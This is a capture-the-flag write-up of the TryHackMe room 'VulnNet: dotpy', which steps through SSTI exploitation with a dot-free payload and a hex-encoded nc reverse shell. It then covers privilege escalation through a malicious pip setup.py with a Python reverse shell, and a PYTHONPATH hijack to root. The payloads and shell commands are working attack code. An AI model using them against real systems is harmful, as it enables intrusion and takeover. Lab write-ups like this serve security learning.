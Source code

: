 # VulnNet: dotpy

https://tryhackme.com/room/vulnnetdotpy

A *very* python centric room, as it says on the tin, but relatively straight forward. It helped that the initial foothold was the same as another recent room.

1. A scan revealed only one port was open, 8080. Going to this revealed a slick website that you could register and log into, but with no apparent functionality.
2. I tried robots.txt which dropped me to a 404 page, but *showing* 403 and 'bad characters detected'. Hmm. Browing to /test revealed a proper 404 page, showing 'test' in the body. This smelled like SSTI, and it was! Browsing to `/{{7*7}}` showed `49` in the page body.
3. A quick test (`{{7*'7'}}`) showed the framework was probably twig. Of more immediate concern was the blacklisting of `.` and I guess other characters, which would make exploiting difficult. Unfortunately for the room, the challenge was identical to the foot hold in [keldagrim](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme/keldagrim.md), right down to the same payload working:

Here is a injection payload with no periods or other easily blocked characters:

`/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`

Putting that in the page returned the id of the user web. Next I used the standard reverse nc binder like `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.176.61 4444 >/tmp/f`, but hex encoded it with '\x' as a seperator, easy with CyberChef, and dropped this in place of `id`. Boom, I had a reverse shell.

4. As `web` I ran sudo -l and found that they could run `/usr/bin/pip3 install *` as the user `system-adm`. With gtfo-bins as a guide, to exploit this, I created a new folder `/tmp/pe`, and put a setup.py file in there containing a reverse shell binder like: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.0.7",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`. I then ran `sudo -u system-adm /usr/bin/pip3 install /tmp/pe` and shortly thereafter had a reverse shell as `system-adm`, and the first flag.

5. sudo -l on system-adm revealed: `(ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py`. This looked and smelled like a python hijack, since that SETENV would allow me to specify PYTHONPATH for importing. Checking /opt/backup.py (which I could read but do nothing else to) it ran 'import zipfile'. Accordingly I created a zipfile.py that contained `import pty; pty.spawn("/bin/bash")`, placed that in /tmp, then ran `sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py` and boom: root shell and the root flag :)

Fun room to take to pieces :)
